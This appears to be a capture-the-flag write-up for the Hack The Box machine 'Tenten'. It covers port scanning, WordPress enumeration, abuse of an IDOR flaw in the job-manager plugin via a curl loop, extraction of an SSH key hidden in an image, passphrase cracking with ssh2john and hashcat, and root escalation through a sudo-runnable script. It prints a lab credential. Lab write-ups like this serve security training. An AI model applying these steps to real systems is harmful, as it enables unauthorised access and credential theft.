

# [Tenten](https://app.hackthebox.com/machines/Tenten)

```bash
nmap -p- --min-rate 10000 10.10.10.10 -Pn 
```


After detection of open ports, let's do greater nmap scan here.

```bash
nmap -A -sC -sV -p22,80 10.10.10.10 -Pn 
```


From nmap scan result, I see that this ip address is resolved into `tenten.htb`, that's why I need to add this domain name into `/etc/hosts` file for resolving purposes.


While I look at this web application, I see that it is `Wordpress` website.


Let's use `wpscan` tool to check `Wordpress` vulnerabilities for this target.
```bash
wpscan --url http://tenten.htb/
```


There is one plugin that named as `job-manager` which have `IDOR`(Insecure Direct Object Reference) vulnerability whose name is [CVE-2015-6668](https://github.com/c0d3cr4f73r/CVE-2015-6668.git).


So I can test this vulnerability via using `curl` command which we can see `Job Applications`.
```bash
for i in $(seq 1 25); do echo -n "$i: "; curl -s http://tenten.htb/index.php/jobs/apply/$i/ | grep 'entry-title' | cut -d'>' -f2 | cut -d'<' -f1; done
```


Let's look at `13` whose name is `HackerAccessGranted` by using exploit script.


While browsing this image URL, it shows me such below page.


Let's download this via `wget` command.
```bash
wget http://tenten.htb/wp-content/uploads/2017/04/HackerAccessGranted.jpg
```

I guess this image have sensitive info that's why I use `steghide` to extract some data from this image.

```bash
steghide extract -sf HackerAccessGranted.jpg
```


It gives me private key `id_rsa` file, let's decrypt this via `ssh2john` tool to crack and find `passphrase`.

```bash
ssh2john id_rsa > hash.txt
```


**Note:** Don't forget removing `id_rsa` string from hash.txt file's beginning.


I crack this hash via `hashcat` command.
```bash
hashcat -m 22931 hash.txt --wordlist /usr/share/wordlists/rockyou.txt
```


From `wpscan` result, I already saw `takis` username, that's why I check this password for this user via `ssh` command.


takis: superpassword


Let's change permissions of `id_rsa` file to `600`, then use this to login into machine via `ssh`.


user.txt


While running `sudo -l` to check privileges of this user, I see interesting binary called `fuckin`.


I see that this is `Bash` script via `file` command.


While reading content of this script, it says that give me input and I will run this as `root` user.




root.txt

